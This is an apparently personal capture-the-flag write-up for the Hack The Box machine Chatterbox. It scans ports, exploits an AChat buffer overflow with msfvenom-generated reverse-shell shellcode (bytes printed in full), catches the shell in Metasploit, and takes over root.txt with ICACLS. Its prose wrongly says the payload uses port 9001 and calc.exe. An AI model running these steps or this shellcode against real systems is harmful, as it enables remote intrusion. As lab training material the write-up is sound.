




---
search:
  exclude: true
---
# Chatterbox Writeup

## Introduction :

Chatterbox is a Medium windows box released back in January 2018

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Chatterbox]
      → nmap -F 10.10.10.74
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-11 08:11 GMT
      Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
      Nmap done: 1 IP address (0 hosts up) scanned in 3.08 seconds
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Chatterbox]
      → nmap -F 10.10.10.74 -Pn
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-11 08:12 GMT
      Nmap scan report for 10.10.10.74
      Host is up.
      All 100 scanned ports on 10.10.10.74 are filtered
    
      Nmap done: 1 IP address (1 host up) scanned in 21.16 seconds
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Chatterbox]
      → nmap -F 10.10.10.74 --top-ports=30000 -vvv
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-11 08:12 GMT
      Initiating Ping Scan at 08:12
      Scanning 10.10.10.74 [2 ports]
      Completed Ping Scan at 08:13, 3.00s elapsed (1 total hosts)
      Nmap scan report for 10.10.10.74 [host down, received no-response]
      Read data files from: /usr/bin/../share/nmap
      Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
      Nmap done: 1 IP address (0 hosts up) scanned in 3.07 seconds
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Chatterbox]
      → nmap -F 10.10.10.74 --top-ports 30000 -vvv -Pn
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-11 08:13 GMT
      Initiating Parallel DNS resolution of 1 host. at 08:13
      Completed Parallel DNS resolution of 1 host. at 08:13, 0.01s elapsed
      DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 08:13
      Scanning 10.10.10.74 [8320 ports]
      Connect Scan Timing: About 1.86% done; ETC: 08:40 (0:27:13 remaining)
      Connect Scan Timing: About 6.91% done; ETC: 08:40 (0:25:49 remaining)
      Connect Scan Timing: About 11.96% done; ETC: 08:40 (0:24:25 remaining)
      Connect Scan Timing: About 17.01% done; ETC: 08:40 (0:23:01 remaining)
      Discovered open port 9255/tcp on 10.10.10.74
      Connect Scan Timing: About 39.73% done; ETC: 08:26 (0:07:55 remaining)
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Chatterbox]
      → nmap -sCV -p9255 10.10.10.74 -Pn
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-11 08:18 GMT
      Nmap scan report for 10.10.10.74
      Host is up (0.099s latency).
    
      PORT     STATE SERVICE VERSION
      9255/tcp open  http    AChat chat system httpd
      |_http-server-header: AChat
      |_http-title: Site doesn't have a title.
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 8.00 seconds
    
    
    

## **Part 2 : Getting User Access**

Our nmap scans picked up port 9255 running the http service so let's investigate it : 

going to /achat we seem to get a binary file so let's download it locally and see what it says : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Chatterbox]
      → file achat
      achat: empty
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Chatterbox]
    → r2 achat
    [0x00000000]> aaa
    [x] Analyze all flags starting with sym. and entry0 (aa)
    [x] Analyze function calls (aac)
    [x] find and analyze function preludes (aap)
    [x] Analyze len bytes of instructions for references (aar)
    [x] Check for objc references
    [x] Check for vtables
    [x] Type matching analysis for all functions (aaft)
    [x] Propagate noreturn information
    [x] Use -AA or aaaa to perform additional experimental analysis.
    [0x00000000]> afl
    [0x00000000]> vvv
    

Seems like we have an empty application file, but let's see if radare2 shows us anything 

As expected we didn't get much from that. Let's run a quick searchsploit cmd with the "Achat" arguement: 
    
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Chatterbox]
    → searchsploit Achat
    ------------------------------------------------------- -------------------------------
     Exploit Title                                         |  Path
                                                             | (/usr/share/exploitdb/)
    ------------------------------------------------------- -------------------------------
    Achat 0.150 beta7 - Remote Buffer Overflow             | exploits/windows/remote/36025.py
    Achat 0.150 beta7 - Remote Buffer Overflow (Metasploit)| exploits/windows/remote/36056.rb
    MataChat - 'input.php' Multiple Cross-Site Scripting Vu| exploits/php/webapps/32958.txt
    Parachat 5.5 - Directory Traversal                     | exploits/php/webapps/24647.txt
    ------------------------------------------------------- -------------------------------
    Shellcodes: No Result
    

Seems like we have a few interesting scripts to try, so let's pick up the first one :
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Chatterbox]
    → locate 36025.py
    /usr/share/exploitdb/exploits/windows/remote/36025.py
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Chatterbox]
    → cp /usr/share/exploitdb/exploits/windows/remote/36025.py .
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Chatterbox]
    → nano 36025.py
    

` 

once we adapted the python script correctly we grep out the msfvenom command to edit it accordingly : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Chatterbox]
    → grep msfvenom 36025.py
    # msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
    

So we edit it accordingly to generate the payload we need : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Chatterbox]
    → msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp_allports LPORT=4444 LHOST=10.10.14.11 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
    

Here we can see that we will generate a payload that will connect back to our ip (10.10.14.11) on port 9001 spawning the calc.exe application in the process. Note also that BufferRegister=EAX indicates at which register the jump call will be, the EAX register will contain the jump call that basically points at the BEGINNING of our buffer overflow payload. 
    
    
      Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/unicode_mixed
    x86/unicode_mixed succeeded with size 690 (iteration=0)
    x86/unicode_mixed chosen with final size 690
    Payload size: 690 bytes
    Final size of python file: 3365 bytes
    buf =  b""
    buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
    buf += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
    buf += b"\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
    buf += b"\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
    buf += b"\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
    buf += b"\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
    buf += b"\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
    buf += b"\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
    buf += b"\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
    buf += b"\x47\x42\x39\x75\x34\x4a\x42\x49\x6c\x38\x68\x35\x32"
    buf += b"\x59\x70\x4b\x50\x6d\x30\x53\x30\x63\x59\x47\x75\x4c"
    buf += b"\x71\x49\x30\x63\x34\x62\x6b\x6e\x70\x4e\x50\x64\x4b"
    buf += b"\x70\x52\x7a\x6c\x34\x4b\x42\x32\x4e\x34\x72\x6b\x62"
    buf += b"\x52\x4f\x38\x4c\x4f\x55\x67\x6d\x7a\x4d\x56\x70\x31"
    buf += b"\x49\x6f\x66\x4c\x4f\x4c\x30\x61\x51\x6c\x49\x72\x4e"
    buf += b"\x4c\x6b\x70\x55\x71\x56\x6f\x6c\x4d\x4d\x31\x45\x77"
    buf += b"\x67\x72\x38\x72\x51\x42\x70\x57\x44\x4b\x31\x42\x5a"
    buf += b"\x70\x54\x4b\x50\x4a\x6d\x6c\x34\x4b\x6e\x6c\x5a\x71"
    buf += b"\x51\x68\x77\x73\x4e\x68\x79\x71\x46\x71\x62\x31\x44"
    buf += b"\x4b\x31\x49\x4f\x30\x6d\x31\x57\x63\x52\x6b\x71\x39"
    buf += b"\x6e\x38\x6a\x43\x6f\x4a\x6d\x79\x44\x4b\x70\x34\x54"
    buf += b"\x4b\x5a\x61\x57\x66\x4e\x51\x4b\x4f\x36\x4c\x69\x31"
    buf += b"\x78\x4f\x5a\x6d\x39\x71\x68\x47\x4c\x78\x57\x70\x74"
    buf += b"\x35\x58\x76\x49\x73\x33\x4d\x49\x68\x6f\x4b\x51\x6d"
    buf += b"\x6f\x34\x33\x45\x48\x64\x42\x38\x54\x4b\x70\x58\x6f"
    buf += b"\x34\x6d\x31\x48\x53\x72\x46\x64\x4b\x4a\x6c\x4e\x6b"
    buf += b"\x62\x6b\x71\x48\x6d\x4c\x4b\x51\x57\x63\x52\x6b\x69"
    buf += b"\x74\x52\x6b\x39\x71\x36\x70\x64\x49\x71\x34\x4f\x34"
    buf += b"\x6b\x74\x51\x4b\x31\x4b\x33\x31\x6e\x79\x4f\x6a\x52"
    buf += b"\x31\x69\x6f\x67\x70\x61\x4f\x4f\x6f\x6e\x7a\x54\x4b"
    buf += b"\x4d\x42\x78\x6b\x64\x4d\x51\x4d\x62\x48\x6f\x43\x6d"
    buf += b"\x62\x39\x70\x6b\x50\x32\x48\x31\x67\x73\x43\x4d\x62"
    buf += b"\x31\x4f\x51\x44\x4f\x78\x4e\x6c\x30\x77\x4d\x56\x49"
    buf += b"\x77\x39\x6f\x78\x55\x37\x48\x66\x30\x5a\x61\x49\x70"
    buf += b"\x69\x70\x4f\x39\x45\x74\x4e\x74\x50\x50\x61\x58\x6b"
    buf += b"\x79\x53\x50\x50\x6b\x4d\x30\x69\x6f\x66\x75\x62\x30"
    buf += b"\x42\x30\x72\x30\x52\x30\x6f\x50\x70\x50\x61\x30\x6e"
    buf += b"\x70\x72\x48\x79\x5a\x4a\x6f\x77\x6f\x57\x70\x49\x6f"
    buf += b"\x68\x55\x63\x67\x53\x38\x39\x7a\x6c\x4a\x6c\x4e\x4a"
    buf += b"\x6b\x32\x48\x4d\x32\x59\x70\x7a\x71\x51\x4c\x35\x39"
    buf += b"\x38\x66\x30\x6a\x4c\x50\x42\x36\x71\x47\x73\x38\x42"
    buf += b"\x79\x43\x75\x72\x54\x31\x51\x4b\x4f\x49\x45\x33\x55"
    buf += b"\x65\x70\x62\x54\x7a\x6f\x51\x56\x64\x4b\x51\x36\x4c"
    buf += b"\x42\x31\x76\x59\x50\x6f\x50\x45\x36\x67\x70\x50\x66"
    buf += b"\x34\x49\x71\x36\x4d\x32\x68\x6b\x5a\x42\x61\x5a\x79"
    buf += b"\x70\x32\x4a\x69\x74\x62\x36\x6e\x77\x33\x38\x59\x72"
    buf += b"\x49\x49\x66\x68\x61\x4f\x59\x6f\x48\x55\x64\x4b\x50"
    buf += b"\x36\x72\x4a\x6d\x70\x53\x38\x69\x70\x4c\x50\x4b\x50"
    buf += b"\x59\x70\x6e\x76\x61\x5a\x4b\x50\x62\x48\x50\x58\x63"
    buf += b"\x74\x6e\x73\x38\x65\x4b\x4f\x59\x45\x76\x33\x50\x53"
    buf += b"\x30\x6a\x6b\x50\x71\x46\x30\x53\x50\x57\x53\x38\x59"
    buf += b"\x72\x77\x69\x47\x58\x31\x4f\x69\x6f\x76\x75\x4b\x51"
    buf += b"\x59\x33\x4b\x79\x77\x56\x74\x35\x58\x6e\x37\x53\x41"
    buf += b"\x41"
    

From there we edit the python script accordingly by pasting in the payload shellcode we generated: 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Chatterbox]
    → nano 36025.py
    

` 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Chatterbox]
      → nano 36025.py
    

Once we're done, we set up a meterpreter handler listening on our port 4444 : 
    
    
      msf5 > use exploit/multi/handler
      msf5 exploit(multi/handler) > set payload windows/shell/reverse_tcp_allports
      payload => windows/shell/reverse_tcp_allports
      msf5 exploit(multi/handler) > set lhost 10.10.14.11
      lhost => 10.10.14.11
      msf5 exploit(multi/handler) > set lport 4444
      lport => 4444
      msf5 exploit(multi/handler) > exploit
    
      [*] Started reverse TCP handler on 10.10.14.11:4444
    

Launch the exploit and catch the incoming reverse shell connection : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Chatterbox]
      → python 36025.py
      ---->{P00F}!
    
    
    
      msf5 exploit(multi/handler) > exploit
    
    [*] Started reverse TCP handler on 10.10.14.11:4444
    [*] Encoded stage with x86/shikata_ga_nai
    [*] Sending encoded stage (267 bytes) to 10.10.10.74
    [*] Command shell session 1 opened (10.10.14.11:4444 -> 10.10.10.74:49157) at 2020-03-12 09:51:54 +0000
    
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    C:\Windows\system32>systeminfo
    systeminfo
    
    

Looking at the systeminfo we see that the box has quite alot of hotfixes installed, so the privilege escalation may not be as trivial as we think : 
    
    
      Host Name:                 CHATTERBOX
      OS Name:                   Microsoft Windows 7 Professional
      OS Version:                6.1.7601 Service Pack 1 Build 7601
      OS Manufacturer:           Microsoft Corporation
      OS Configuration:          Standalone Workstation
      OS Build Type:             Multiprocessor Free
      Registered Owner:          Windows User
      Registered Organization:
      Product ID:                00371-223-0897461-86794
      Original Install Date:     12/10/2017, 9:18:19 AM
      System Boot Time:          3/12/2020, 5:52:17 AM
      System Manufacturer:       VMware, Inc.
      System Model:              VMware Virtual Platform
      System Type:               X86-based PC
      Processor(s):              2 Processor(s) Installed.
                                 [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                                 [02]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
      BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
      Windows Directory:         C:\Windows
      System Directory:          C:\Windows\system32
      Boot Device:               \Device\HarddiskVolume1
      System Locale:             en-us;English (United States)
      Input Locale:              en-us;English (United States)
      Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
      Total Physical Memory:     2,047 MB
      Available Physical Memory: 1,402 MB
      Virtual Memory: Max Size:  4,095 MB
      Virtual Memory: Available: 3,423 MB
      Virtual Memory: In Use:    672 MB
      Page File Location(s):     C:\pagefile.sys
      Domain:                    WORKGROUP
      Logon Server:              \\CHATTERBOX
      Hotfix(s):                 208 Hotfix(s) Installed.
                                 [01]: KB2849697
                                 [02]: KB2849696
                                 [03]: KB2841134
                                 [04]: KB2670838
                                 [05]: KB2830477
                                 [06]: KB2592687
                                 [07]: KB2479943
                                 [08]: KB2491683
                                 [09]: KB2506212
                                 [10]: KB2506928
                                 [11]: KB2509553
                                 [12]: KB2532531
                                 [13]: KB2533552
                                 [14]: KB2533623
    
                                [...]
    
                                 [206]: KB976902
                                 [207]: KB982018
                                 [208]: KB4054518
      Network Card(s):           1 NIC(s) Installed.
                                 [01]: Intel(R) PRO/1000 MT Network Connection
                                       Connection Name: Local Area Connection
                                       DHCP Enabled:    No
                                       IP address(es)
                                       [01]: 10.10.10.74
    

now let's first upgrade our multi handler to a meterpreter shell : 
    
    
      C:\Windows\system32>^Z
    Background session 1? [y/N]  y
    msf5 exploit(multi/handler) > use post/multi/manage/shell_to_meterpreter
    msf5 post(multi/manage/shell_to_meterpreter) > set session 1
    session => 1
    msf5 post(multi/manage/shell_to_meterpreter) > set lhost 10.10.14.11
    lhost => 10.10.14.11
    msf5 post(multi/manage/shell_to_meterpreter) > set lport 8888
    lport => 8888
    msf5 post(multi/manage/shell_to_meterpreter) > exploit
    
    [*] Upgrading session ID: 1
    [*] Starting exploit/multi/handler
    [*] Started reverse TCP handler on 10.10.14.11:8888
    

Wait a bit for it to migrate : 
    
    
      [*] Started reverse TCP handler on 10.10.14.11:8888
    [*] Post module execution completed
    msf5 post(multi/manage/shell_to_meterpreter) >
    [*] Sending stage (180291 bytes) to 10.10.10.74
    [*] Meterpreter session 2 opened (10.10.14.11:8888 -> 10.10.10.74:49158) at 2020-03-12 09:55:49 +0000
    [*] Stopping exploit/multi/handler
    
    

And we see that it opened session 2 for us, so migrate into our second session : 
    
    
      msf5 post(multi/manage/shell_to_meterpreter) > sessions -i 2
    [*] Starting interaction with 2...
    
    meterpreter > shell
    Process 4008 created.
    Channel 1 created.
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    C:\Windows\system32>whoami
    whoami
    chatterbox\alfred
    

Looks like we are logged in as alfred, so let's go ahead and print out his user.txt flag : 
    
    
      C:\Windows\system32>cd ..
    cdcd ..
    
    C:\Windows> ..
    cd ..
    
    C:\>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is 9034-6528
    
     Directory of C:\
    
    06/10/2009  05:42 PM                24 autoexec.bat
    06/10/2009  05:42 PM                10 config.sys
    07/13/2009  10:37 PM    <****DIR>          PerfLogs
    12/10/2017  02:35 PM <****DIR>          Program Files
    12/10/2017  10:21 AM <****DIR>          Users
    12/10/2017  07:42 PM <****DIR>          Windows
                   2 File(s)             34 bytes
                   4 Dir(s)  17,930,084,352 bytes free
    
    C:\>cd Users
    cd Users
    
    C:\Users>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is 9034-6528
    
     Directory of C:\Users
    
    12/10/2017  10:21 AM <****DIR>          .
    12/10/2017  10:21 AM <****DIR>          ..
    12/10/2017  02:34 PM <****DIR>          Administrator
    12/10/2017  10:18 AM <****DIR>          Alfred
    04/11/2011  10:21 PM <****DIR>          Public
                   0 File(s)              0 bytes
                   5 Dir(s)  17,930,084,352 bytes free
    
    C:\Users>cd Alfred
    cd Alfred
    
    C:\Users\Alfred>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is 9034-6528
    
     Directory of C:\Users\Alfred
    
    12/10/2017  10:18 AM <****DIR>          .
    12/10/2017  10:18 AM <****DIR>          ..
    12/10/2017  01:05 PM <****DIR>          Contacts
    12/10/2017  07:50 PM <****DIR>          Desktop
    12/10/2017  01:05 PM <****DIR>          Documents
    12/10/2017  01:25 PM <****DIR>          Downloads
    12/10/2017  01:05 PM <****DIR>          Favorites
    12/10/2017  01:05 PM <****DIR>          Links
    12/10/2017  01:05 PM <****DIR>          Music
    12/10/2017  01:05 PM <****DIR>          Pictures
    12/10/2017  01:05 PM <****DIR>          Saved Games
    12/10/2017  01:05 PM <****DIR>          Searches
    12/10/2017  01:05 PM <****DIR>          Videos
                   0 File(s)              0 bytes
                  13 Dir(s)  17,930,084,352 bytes free
    
    C:\Users\Alfred>cd Desktop
    cd Desktop
    
    C:\Users\Alfred\Desktop>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is 9034-6528
    
     Directory of C:\Users\Alfred\Desktop
    
    12/10/2017  07:50 PM <****DIR>          .
    12/10/2017  07:50 PM <****DIR>          ..
    12/10/2017  07:50 PM                32 user.txt
                   1 File(s)             32 bytes
                   2 Dir(s)  17,930,084,352 bytes free
    
    C:\Users\Alfred\Desktop>type user.txt
    type user.txt
    72XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

And that's it ! we have been able to print out the user flag. 

## **Part 3 : Getting Root Access**

Getting the Administrator flag is preety straightforward since we can already navigate into the Administrator folder:
    
    
      C:\Users\Alfred\Desktop>cd ../..
    cd ../..
    
    C:\Users>cd Administrator
    cd Administrator
    
    C:\Users\Administrator>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is 9034-6528
    
     Directory of C:\Users\Administrator
    
    12/10/2017  02:34 PM    <****DIR>          .
    12/10/2017  02:34 PM <****DIR>          ..
    12/10/2017  07:08 PM <****DIR>          Contacts
    12/10/2017  07:50 PM <****DIR>          Desktop
    12/10/2017  07:08 PM <****DIR>          Documents
    12/10/2017  07:08 PM <****DIR>          Downloads
    12/10/2017  07:08 PM <****DIR>          Favorites
    12/10/2017  07:08 PM <****DIR>          Links
    12/10/2017  07:08 PM <****DIR>          Music
    12/10/2017  07:08 PM <****DIR>          Pictures
    12/10/2017  07:08 PM <****DIR>          Saved Games
    12/10/2017  07:08 PM <****DIR>          Searches
    12/10/2017  07:08 PM <****DIR>          Videos
                   0 File(s)              0 bytes
                  13 Dir(s)  18,025,164,800 bytes free
    
    C:\Users\Administrator>cd Desktop
    cd Desktop
    
    C:\Users\Administrator\Desktop>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is 9034-6528
    
     Directory of C:\Users\Administrator\Desktop
    
    12/10/2017  07:50 PM <****DIR>          .
    12/10/2017  07:50 PM <****DIR>          ..
    12/10/2017  07:50 PM                32 root.txt
                   1 File(s)             32 bytes
                   2 Dir(s)  18,025,164,800 bytes free
    
    C:\Users\Administrator\Desktop>type root.txt
    type root.txt
    Access is denied.

As expected we can't print out the Administrator's root flag. so we check the permissions since it is quite odd to be able to navigate into his folder as the user alfred: 
    
    
      C:\Users\Administrator\Desktop>cacls C:\Users\Administrator\Desktop
      cacls C:\Users\Administrator\Desktop
      C:\Users\Administrator\Desktop NT AUTHORITY\SYSTEM:(OI)(CI)(ID)F
                                     CHATTERBOX\Administrator:(OI)(CI)(ID)F
                                     BUILTIN\Administrators:(OI)(CI)(ID)F
                                     CHATTERBOX\Alfred:(OI)(CI)(ID)F
    
    

Basically here we see that we already have the privileges we need to modify the permissions of all files and directories under Admin's directory. And since we are on a Windows 7 Box there is a command line tool to change file permissions : 
    
    
      C:\Users\Administrator\Desktop>ICACLS root.txt /grant "Users":F
      ICACLS root.txt /grant "Users":F
      processed file: root.txt
      Successfully processed 1 files; Failed processing 0 files
    
      C:\Users\Administrator\Desktop>type root.txt
      type root.txt
      a6XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And as you can see we have been able to print out the root flag ! 

## **Conclusion**

Here we can see the progress graph :

